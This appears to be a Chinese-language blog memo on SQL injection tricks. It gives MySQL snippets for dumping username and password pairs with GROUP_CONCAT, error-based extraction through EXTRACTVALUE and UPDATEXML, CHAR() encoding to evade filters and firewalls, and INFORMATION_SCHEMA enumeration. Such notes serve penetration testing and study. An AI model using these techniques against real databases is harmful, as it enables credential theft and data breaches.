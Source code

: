 ```yaml
---
title: SQLi小技巧
date: 2024-10-13 15:34:35
tags:
  - sql
  - 注入
categories: 备忘录
description: 在SQL注入（SQLi）测试过程中，使用一些小技巧可以帮助我们更高效地提取数据、绕过过滤机制或获得更好的回显。
top_img: https://pic.imgdb.cn/item/66fe2fc70a206445e3a88ab1.jpg
cover: https://pic.imgdb.cn/item/66fe2fc70a206445e3a88ab1.jpg
---
```

## **`GROUP_CONCAT` 排版改进**  

你提到的技巧通过使用 `GROUP_CONCAT` 来连接多个值，并且使用自定义分隔符（如`'<br>'`）来美化输出。以下是类似的用法，可以进行数据的分段显示或结构化回显。
### 示例

```sql
SELECT GROUP_CONCAT(username, ':', password SEPARATOR ' | ') FROM staff_users;
```
 
 **作用**：将所有用户名和密码输出成 `username:password | username2:password2 | ...` 的格式，方便读取。
### 常用格式化方式

- `SEPARATOR '<br>'`：适合HTML环境中进行换行显示。
- `SEPARATOR ' | '`：适合命令行回显，格式化信息。
- `SEPARATOR ','`：逗号分隔显示，适合CSV风格输出。
## **`CONCAT_WS` 替代 `GROUP_CONCAT`**

`CONCAT_WS` 可以指定一个分隔符，并灵活地将多个列的值连接在一起，常用于构造更易于阅读的输出。
### 示例

```sql
SELECT CONCAT_WS(' : ', username, password) FROM staff_users;
```

 **作用**：将 `username` 和 `password` 用 `:` 分隔，结果类似于 `username : password`。
### 小技巧

`CONCAT_WS` 可以自动忽略空字段，因此在处理可能包含 `NULL` 值时比 `CONCAT` 更安全。
##  **`UNION` 合并多列回显**  

在SQLi中，常常通过 `UNION` 语句来构造多列输出，并将敏感信息通过不同列进行回显。
### 示例

```sql
SELECT id, username FROM staff_users 
UNION 
SELECT 1, CONCAT(version(), ' | ', database());
```

 **作用**：回显数据库版本和当前数据库名，并通过UNION将它与普通数据结果集混合。
 **技巧**：如果注入点回显多个列，利用 `UNION` 可以将多个信息源结合到同一查询中。
##  **`EXTRACTVALUE` 和 `UPDATEXML` 绕过**

在某些环境中，XML函数可以被滥用来进行回显。
### 示例（`EXTRACTVALUE`）

```sql
SELECT EXTRACTVALUE(1, CONCAT(0x3a, (SELECT database())));
```

 **作用**：返回当前数据库名称，利用 `EXTRACTVALUE` 绕过某些安全过滤。
### 示例（`UPDATEXML`）

```sql
SELECT UPDATEXML(1, CONCAT(0x7e, (SELECT version())), 1);
```

 **作用**: 返回数据库版本信息，可能用来绕过字符限制或应用防火墙。
 
## **`LIMIT` 和 `OFFSET` 分页提取**

当目标数据库存在大量数据时，使用 `LIMIT` 和 `OFFSET` 可以分批提取数据，避免回显过多内容造成干扰。
### 示例

```sql
SELECT username, password FROM staff_users LIMIT 10 OFFSET 20;
```

**作用**：提取第21条到第30条数据，避免一次性回显太多行，适合大型数据集。
## **`CHAR` 函数注入**

使用 `CHAR()` 函数可以将字符串表示为ASCII字符，帮助绕过一些基于字符串的过滤机制。
### 示例

```sql
SELECT CHAR(117,115,101,114,110,97,109,101) FROM dual;
```

**作用**：通过ASCII码返回 `username` 字符串，有助于绕过某些字符过滤或限制。
## **`SUBSTRING` 提取指定位置的数据**

使用 `SUBSTRING` 可以提取特定长度的数据段，适合回显受限时分段提取信息。
### 示例

```sql
SELECT SUBSTRING((SELECT password FROM staff_users LIMIT 1), 1, 10);
```

**作用**：提取第一个用户密码的前10个字符，逐步获取完整信息。
## **`ORDER BY` 组合信息泄露**

在注入点可以操作 `ORDER BY` 时，可以通过修改排序规则提取敏感信息。
#### 示例

```sql
SELECT username FROM staff_users ORDER BY (SELECT database());
```

**作用**: 使用当前数据库名来排序用户数据，可能导致SQL注入响应中的非预期行为。
## **`INFORMATION_SCHEMA` 读取数据库结构**

利用 `INFORMATION_SCHEMA` 可以获取数据库中的表和列的信息。
### 示例（列出所有表名）

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = database();
```

**作用**：列出当前数据库中的所有表名，帮助进一步进行数据提取。

### 示例（列出某个表的列名）

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'staff_users';
```
**作用**：列出 `staff_users` 表中的所有列名，为后续攻击提供详细信息。

## **`IFNULL` 和 `COALESCE` 避免空值回显**

如果某些字段可能为 `NULL`，可以使用 `IFNULL` 或 `COALESCE` 函数来替换空值，避免回显数据缺失。

### 示例

```sql
SELECT COALESCE(username, 'unknown'), COALESCE(password, 'no_password') FROM staff_users;
```

**作用**：确保即使字段为 `NULL` 也能输出替代值，保持回显数据完整。

## **`CASE` 条件回显**

使用 `CASE` 可以基于特定条件定制化输出。

### 示例

```sql
SELECT username, CASE WHEN length(password) > 8 THEN 'Strong' ELSE 'Weak' END FROM staff_users;
```

**作用**：基于密码长度对密码强度进行判断并输出。
